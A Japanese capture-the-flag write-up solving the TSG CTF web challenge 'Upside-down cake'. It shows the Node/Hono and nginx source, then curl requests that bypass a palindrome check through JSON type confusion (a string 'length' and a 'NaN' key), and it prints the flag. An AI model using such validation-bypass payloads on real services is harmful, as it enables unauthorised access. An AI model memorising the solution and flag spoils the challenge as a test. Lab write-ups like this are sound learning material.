 # Upside-down cake:web:100pts
設定が正しいか、413回チェックしました。  

[http://34.84.176.251:12349](http://34.84.176.251:12349)  

初心者向けヒント  
- とりあえず、上のリンクを開いて、適当に操作してみてください。この問題は「非常に長い回文」をサーバーに送ることでフラグが手に入ると主張していますが、話はそんなに単純ではないことがすぐに分かります。  
- 次に、添付したソースコードを読んでください。`main.mjs` や `nginx.conf` といったファイルにこのウェブサイトの重要なロジックが記述されています。`flag` という変数にフラグが保存されているので、この値をリークすることが目的となります。  
- これらのヒントを元に、「非常に長い回文」をサーバーに送るのではなく、何かしらのバグを突くことによってフラグを手に入れる方法を考えましょう。Web技術、特にJavaScriptについての知識が必要になるかもしれないので、必要に応じてMDNなどのドキュメントを参照してください。  
- なお、この問題を解くのに大量のアクセスをする必要はありません。ルールに書かれている通り、DoS まがいの大量アクセスはご遠慮ください。  

[upside-down_cake.tar.gz](upside-down_cake.tar.gz)  

# Solution
URLとソースコード一式が配布される。  
アクセスすると、"長い回文を送ればフラグが得られる"とある。  
![site1.png](site/site1.png)  
試しに`s`を100個送信すると、以下のように413 Request Entity Too Largeで怒られる。  
![site2.png](site/site2.png)  
ソースを見ると、main.mjsの主要部分は以下のようであった。  
```js
~~~
const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});
~~~
```
`string.length`が1000以上である回文を送ればフラグが得られるようだ。  
同じくソースのnginx.confを確認する。  
```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
先ほどの413 Request Entity Too Largeは`client_max_body_size 100;`に引っかかっているようだ。  
bodyが100以下かつlengthが1000以上な回文の送信は不可能である。  
ここで、リクエストよりpalindromeのlengthを指定できないかと考える。  
```bash
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": 1}}'
too short
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": 1000}}'
not palindrome
```
応答よりlengthを指定した場合、任意の値の指定に成功しているようだ。  
次に回文のチェック箇所だが、同じくpalindromeの添え字の数字を`{"palindrome":{"length": 1000, "0": "s", "999": "s"}}`のように指定してやればよい。  
ただし、lengthが1000である場合、大量の添え字を指定しなければならないため、bodyが100以下であるという条件を満たせない。  
ここで、lengthを文字列にする場合を考える。  
`string.length < 1000`はfalseであり、`for (const i of Array(string.length).keys())`も0のみのループとなる。  
注意点として、`string.length - i - 1`がNaNとなるが、NaN自体を添え字として指定してやればよい。  
以下のように行う。  
```bash
$ curl -X POST -H "Content-Type: application/json" http://34.84.176.251:12349/ -d '{"palindrome":{"length": "s", "0": "s", "NaN": "s"}}'
I love you! Flag is TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```
flagが得られた。  

## TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}